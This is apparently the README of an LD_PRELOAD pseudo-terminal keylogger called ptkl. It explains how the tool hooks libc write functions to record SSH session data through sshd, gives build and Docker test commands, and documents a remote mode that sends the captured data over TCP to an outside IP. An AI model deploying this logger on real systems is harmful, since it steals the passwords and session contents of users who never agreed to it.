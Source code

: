 # ptkl - Pseudo Terminal Key Logger

**Beware!** This is very early stage of `LD_PRELOAD` based pseudo terminal key logger.

It overwrites `write` and `writev` libc functions and copies all data as they are to a file descriptor 100 from them for all fds pointing to `/dev/ptmx`.
File descriptor 100 is expected to be open in advance (use shell redirection `100>&2` for example).
Every logged write is prepended with PID, function name, fd number and amount of written data.
For example:
```
201: write: fd: 7: size: 1: s
```
where process with PID `201` wrote with function `write` to the file descriptor `7` one byte `s`.

---

Build with
```
make
```

Run following command to log ssh sessions.
```sh
./ptklify /usr/sbin/sshd -De 100>&2
```

Docker test cheat sheet:
```
docker build --tag=sshd .
docker run --rm --name=sshd sshd
ssh -o UserKnownHostsFile=kh root@172.17.0.2
```

---

## Remote logger
A primitive remote logging option is available. If the `REMOTE_LOGGER` environment variable exists during execution of ptkl then it will try to connect to a remote IP address and port via TCP to send all data that normally is outputted to the file descriptor `100`.
The format for `REMOTE_LOGGER` is `{IPADDR}:{PORT}`. For example:
```bash
 REMOTE_LOGGER="1.2.3.4:9999" ./ptklify /usr/sbin/sshd -De
```
